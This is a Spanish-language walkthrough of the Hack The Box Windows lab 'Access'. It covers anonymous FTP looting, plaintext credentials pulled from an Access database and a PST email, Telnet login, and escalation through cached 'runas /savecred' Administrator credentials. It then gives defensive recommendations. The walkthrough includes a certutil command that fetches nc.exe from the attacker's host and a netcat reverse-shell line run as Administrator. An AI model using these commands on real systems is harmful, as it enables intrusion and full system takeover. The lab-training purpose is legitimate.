









# Access — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · FTP anónimo · Base de datos Microsoft Access (`.mdb`) con `mdbtools` · ZIP protegido con contraseña reutilizada · PST de Outlook con `readpst` · Telnet · Credenciales cacheadas de `runas /savecred` → Administrator

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración FTP — filtración en cascada](#2-enumeración-ftp--filtración-en-cascada)
3. [Acceso inicial — Telnet como `security`](#3-acceso-inicial--telnet-como-security)
4. [Obtención de shell — escalada con `runas /savecred`](#4-obtención-de-shell--escalada-con-runas-savecred)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comprobamos la disponibilidad del host y estimamos el sistema operativo por el TTL:

```bash
ping -c 1 10.129.68.136
```


Un TTL de **127** (partiendo de 128 y restando un salto) es la firma clásica de **Windows**, frente al 64 típico de Linux.

Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.68.136 -oN AllPorts
```


| Parámetro | Función |
|-----------|---------|
| `-sS` | Escaneo SYN, sigiloso, sin completar el handshake TCP |
| `-Pn` | No descarta el host aunque no responda a ping |
| `--min-rate 5000` | Fuerza un envío rápido de paquetes |
| `--open` | Solo muestra puertos abiertos |
| `-n` | Sin resolución DNS |

Para no releer manualmente el resultado, se apoya en una pequeña herramienta propia de enumeración que resume la salida de Nmap:

```bash
enum-nmap AllPorts
```



> 💡 Un script propio que parsea el fichero de salida de Nmap y muestra un resumen limpio: IP, TTL, SO estimado, puertos abiertos y la lista lista para copiar en el siguiente `-p`.

Tres puertos abiertos: **21** (ftp), **23** (telnet) y **80** (http). Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p21,23,80 -oN Ports 10.129.68.136
```



| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 21 | Microsoft ftpd | **`ftp-anon`: Anonymous FTP login allowed** |
| 23 | Microsoft Windows XP telnetd | Hostname `ACCESS`, `Product_Version: 6.1.7600` (Windows 7) |
| 80 | Microsoft IIS httpd 7.5 | Título **"MegaCorp"** |

> 💡 El propio script `ftp-anon` de Nmap confirma que el FTP acepta **login anónimo** sin necesidad de probarlo a mano — la vía de entrada más evidente de las tres.

## 2. Enumeración FTP — filtración en cascada

Nos conectamos por FTP como usuario anónimo, cambiamos a modo binario (obligatorio para no corromper ficheros no-texto) y exploramos:

```bash
ftp 10.129.68.136
Name: anonymous
Password: (cualquiera)
ftp> binary
ftp> ls -la
ftp> cd Backups
ftp> get backup.mdb
```



En la carpeta `Engineer` hay además un ZIP protegido:

```bash
ftp> cd Engineer
ftp> get "Access Control.zip"
```


> 💡 Dos ficheros de interés: `backup.mdb` (base de datos de Microsoft Access) y `Access Control.zip` (protegido con contraseña, todavía desconocida en este punto).

### 2.1 Extrayendo credenciales del `.mdb`

Un `.mdb` es una base de datos de **Microsoft Access**. En Linux se analiza con el paquete `mdbtools`, sin necesidad de tener Access instalado:

```bash
mdb-tables backup.mdb
```


Entre decenas de tablas de un sistema de control de accesos, filtramos por las que puedan contener credenciales:

```bash
mdb-tables backup.mdb | grep 'user'
```


La tabla `auth_user` es la candidata obvia. La exportamos a CSV para leerla cómodamente:

```bash
mdb-export backup.mdb auth_user
```



```csv
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Guardamos las tres credenciales encontradas:



```
admin:admin
engineer:access4u@security
backup_admin:admin
```

### 2.2 El ZIP y el PST

Probamos la contraseña de `engineer` contra el ZIP descargado:

```bash
7z x "Access Control.zip"
# Enter password: access4u@security
```



> 💡 La contraseña de `engineer` se **reutiliza** también para proteger este ZIP.

Dentro aparece un fichero **`Access Control.pst`** — un archivo de correo de **Microsoft Outlook**. Lo procesamos con `readpst`, que lo convierte en ficheros `.mbox` legibles sin necesidad de tener Outlook instalado:

```bash
readpst "Access Control.pst"
cat "Access Control.mbox"
```


```
From: john@megacorp.com
Subject: MegaCorp Access Control System "security" account

Hi there,

The password for the "security" account has been changed to 4Cc3ssC0ntr0ller.
Please ensure this is passed on to your engineers.

Regards,
John
```

> 💡 Tercera generación de credenciales filtradas en cascada: FTP anónimo → base de datos Access → ZIP (contraseña reutilizada) → correo dentro del PST. Cada paso desbloquea el siguiente sin explotar ninguna vulnerabilidad técnica, solo **higiene de credenciales pésima**.

Guardamos la nueva credencial:


```
security:4Cc3ssC0ntr0ller
```

## 3. Acceso inicial — Telnet como `security`

Con la cuenta `security` y su contraseña, nos conectamos por Telnet (el puerto 23 detectado al inicio):

```bash
telnet 10.129.68.136
login: security
password: 4Cc3ssC0ntr0ller
```


Acceso confirmado como `security` en el host **ACCESS**.

```
cd Desktop
dir
```



Confirmamos la existencia de `user.txt` (34 bytes) en el escritorio de `security` — la primera flag de la máquina.

## 4. Obtención de shell — escalada con `runas /savecred`

Explorando el escritorio público (`C:\Users\Public\Desktop`), hay un acceso directo a la aplicación de control de accesos. Un `.lnk` es un binario, pero las cadenas de texto ASCII incrustadas siguen siendo legibles con `type`:

```
type "ZKAccess3.5 Security System.lnk"
```


Entre el ruido binario aparece la línea clave:

```
runas.exe C:\ZKTeco\ZKAccess3.5\G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

> 💡 Este acceso directo lanza `Access.exe` usando **`runas /savecred`** como `ACCESS\Administrator`. El flag **`/savecred`** es la clave de toda la escalada: le dice a Windows que **guarde (cachee) las credenciales** la primera vez que se usan, para no volver a pedirlas en sucesivas ejecuciones de `runas` **para ese mismo usuario en esa misma máquina** — sin importar qué comando se ejecute después. Si alguien ya ejecutó este acceso directo una vez (aceptando guardar la contraseña de Administrator), esas credenciales quedan cacheadas y reutilizables por **cualquier** usuario con sesión en la máquina, para **cualquier** comando.

### Escalada de privilegios

Preparamos un `nc.exe` para Windows y lo servimos desde un servidor HTTP en nuestra máquina atacante:

```bash
python3 -m http.server 8080
```


Desde la sesión Telnet (como `security`), descargamos el binario con una utilidad nativa de Windows (técnica de "living off the land": usar binarios legítimos del sistema en vez de subir herramientas propias):

```
certutil -urlcache -split -f http://10.10.15.31:8080/nc.exe nc.exe
```


Generamos el payload de reverse shell para `nc.exe` de Windows:

```
nc.exe 10.10.15.31 444 -e cmd
```



Y lo lanzamos, no directamente, sino a través de `runas /savecred` como Administrator — **sin necesidad de conocer su contraseña**, porque ya está cacheada:

```
runas /user:Administrator /savecred "nc.exe 10.10.15.31 444 -e cmd"
```


Con el listener ya preparado:

```bash
nc -lvnp 444
```


Recibimos la conexión con privilegios de **Administrator**:


```
C:\Windows\system32>whoami
access\administrator
```

## 5. Post-explotación y flags

```
cd C:\Users\Administrator\Desktop
dir
```



Confirmamos la existencia de `root.txt` (34 bytes) en el escritorio de Administrator — la flag final, acreditando el compromiso total del sistema. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores — el objetivo de la máquina (compromiso total) queda acreditado con la shell de Administrator obtenida.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| FTP con acceso anónimo habilitado, sirviendo backups y ficheros internos | Puerto 21 | Punto de entrada sin ninguna credencial |
| Base de datos de Access con contraseñas en texto plano en una tabla `auth_user` | `backup.mdb` | Cualquiera con el fichero obtiene credenciales de varios roles |
| Contraseña reutilizada entre la cuenta `engineer` y la protección del ZIP | `Access Control.zip` | Una sola contraseña filtrada compromete además el contenido cifrado |
| Correo con una contraseña en texto plano, retenido dentro de un `.pst` accesible | `Access Control.pst` | El correo interno terminó siendo, de facto, un tercer almacén de credenciales expuesto |
| Credenciales de Administrator cacheadas de forma persistente con `runas /savecred` | Acceso directo `ZKAccess3.5 Security System.lnk` | Cualquier usuario con sesión en el sistema puede ejecutar **cualquier comando** como Administrator, sin conocer su contraseña |

## Recomendaciones defensivas

- Deshabilitar el acceso FTP anónimo salvo que sea estrictamente necesario, y nunca servir backups o ficheros internos desde él.
- No almacenar contraseñas en texto plano en bases de datos de aplicaciones (usar hashing con sal).
- No reutilizar contraseñas entre distintos sistemas, ficheros protegidos y cuentas.
- No dejar credenciales en texto plano en correos electrónicos, ni siquiera "temporalmente" durante una rotación.
- Evitar `runas /savecred` en producción: cachea credenciales de forma persistente y las expone a cualquier usuario local con acceso a la sesión donde se usó.
- Migrar Telnet a un protocolo cifrado (SSH) siempre que se necesite acceso remoto por línea de comandos.
- Auditar periódicamente qué accesos directos y tareas programadas usan `runas`/credenciales guardadas en los equipos de la organización.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
